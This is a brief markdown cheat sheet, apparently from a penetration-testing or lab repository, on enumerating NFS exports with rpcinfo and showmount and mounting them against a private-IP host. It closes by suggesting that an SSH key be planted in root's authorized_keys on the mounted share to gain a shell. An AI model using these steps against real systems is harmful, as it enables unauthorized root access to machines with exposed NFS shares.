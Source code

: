 ## Probe the host with rpcinfo to get details

```
rpcinfo -p 192.168.145.133
```

## Check for available shares using showmount

```
showmount -e 192.168.145.133
```

## Mount the share on your local file system

```
mount -t nfs 192.168.145.133:/ /tmp/mount_point
```

__You can also add your ssh key to the /root/.ssh/authorized_keys of mounted file system to get shell over ssh__.
